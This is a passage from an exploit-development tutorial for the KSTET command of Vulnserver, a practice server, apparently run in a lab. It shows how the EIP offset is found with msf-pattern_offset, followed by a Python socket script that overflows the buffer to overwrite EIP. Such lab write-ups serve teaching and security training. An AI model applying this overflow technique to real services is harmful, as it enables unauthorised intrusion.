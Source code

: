 Finding offset of the ```EIP``` from the pattern

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
```

We can see that our EIP is at the offset of ```70 bytes``` in the pattern

So we should use ```6 bytes``` of KSTET and ```70 bytes``` of A's to reach EIP

## Overwriting instruction pointer

Now, we have found the offset of our EIP

It’s time to control the EIP, which is the important phase of every exploitation

Lets craft a script to overwrite the EIP with our own custom data, which will be further used to craft an exploit,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat overwrite-eip.py 
import socket, sys
payload=b""
# to overwrite buffer and EBP
payload+=b"A"*70
# to overwrite EIP
payload+=b"D"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"KSTET "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 overwrite-eip.py 
```

We have successfully overwrote the EIP with our own data ```0x44444444```

<div align="center">